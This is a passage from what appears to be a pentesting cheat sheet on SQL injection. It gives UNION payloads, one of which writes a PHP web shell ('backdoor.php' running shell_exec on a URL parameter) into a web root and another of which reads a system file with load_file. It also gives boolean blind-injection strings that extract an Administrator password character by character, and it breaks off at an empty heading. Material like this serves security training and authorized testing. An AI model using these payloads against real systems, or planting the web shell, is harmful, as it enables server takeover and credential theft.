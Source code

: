 ### Union Attack Strings

Upload php command injection file

```
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file

```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

## Blind SQLi (Inferential)

[https://owasp.org/www-community/attacks/Blind\_SQL\_Injection](https://owasp.org/www-community/attacks/Blind\_SQL\_Injection)

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.\
With blind SQL injection vulnerabilities, many techniques such as UNION attacks are not effective, because they rely on being able to see the results of the injected query within the application's responses.

Blind SQL comes in to types:

* Boolean-Based: Which looks at responses in the application based on if the SQLi query is "True" or "False"
* Time-Based: Which determines a "True" or "False" result depending on the time the target application takes to process the query

### **Triggering conditional responses**&#x20;

* Systematically testing with a series of inputs until a given response is made.&#x20;
* To determine the conditional response, test with and always tru and always false query&#x20;
  * xyz' UNION SELECT 'a' WHERE 1=1--&#x20;
  * xyz' UNION SELECT 'a' WHERE 1=2--
* Example:&#x20;
  * xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
    * If this returns with the positive conditional statement, the first character of the password is create than ‘m’&#x20;
  * xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--&#x20;
    * If this does not return with the positive conditional statement, the first character is less than ‘t’&#x20;
  * Repeat until the entire password is discovered
* [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

### I**nducing conditional responses by triggering SQL errors**
